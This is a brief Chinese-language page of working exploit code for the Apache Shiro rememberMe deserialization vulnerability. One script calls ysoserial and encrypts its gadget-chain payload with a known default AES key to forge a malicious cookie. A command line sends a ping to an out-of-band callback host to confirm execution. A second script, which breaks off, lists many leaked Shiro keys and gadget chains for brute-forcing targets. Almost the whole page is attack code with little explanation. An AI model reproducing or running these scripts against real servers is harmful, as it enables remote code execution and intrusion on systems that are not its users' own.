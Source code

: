 ```
apt-get install python-dev
pip install pycrypto
```



生成cookie的脚本

```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```

```
python2 create_payload.py "ping -n 3 66fysa.ceye.io || ping -c 3 66fysa.ceye.io"
```

得到构造好的rememberme的cookie，带着cookie去访问target就好



生成payload并发包的脚本：

```
#coding: utf-8
import os
import re
import time
import base64
import uuid
import subprocess
import requests
from Crypto.Cipher import AES
#JAR_FILE = 'ysoserial-master-SNAPSHOT.jar'
JAR_FILE = 'ysoserial.jar'
keys = ['Z3VucwAAAAAAAAAAAAAAAA==','kPH+bIxk5D2deZiIxcaaaA==','4AvVhmFLUs0KTA3Kprsdag==','3AvVhmFLUs0KTA3Kprsdag==','2AvVhdsgUs0FSA3SDFAdag==','wGiHplamyXlVB11UXWol8g==','fCq+/xW488hMTCD+cmJ3aQ==','1QWLxg+NYmxraMoxAXu/Iw==','ZUdsaGJuSmxibVI2ZHc9PQ==','L7RioUULEFhRyxM7a2R/Yg== ','6ZmI6I2j5Y+R5aSn5ZOlAA==','r0e3c16IdVkouZgk1TKVMg==','ZWvohmPdUsAWT3=KpPqda','5aaC5qKm5oqA5pyvAAAAAA==','bWluZS1hc3NldC1rZXk6QQ==','a2VlcE9uR29pbmdBbmRGaQ==','WcfHGU25gNnTxTlmJMeSpw==','LEGEND-CAMPUS-CIPHERKEY==','3AvVhmFLUs0KTA3Kprsdag==']
lis = ["BeanShell1","C3P0","Clojure","CommonsBeanutils1","CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4","CommonsCollections5","CommonsCollections6","FileUpload1","Groovy1","Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1","JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","Myfaces1","Myfaces2","ROME","Spring1","Spring2","URLDNS","Wicket1",]
#keys = ['4AvVhmFLUs0KTA3Kprsdag==','']
```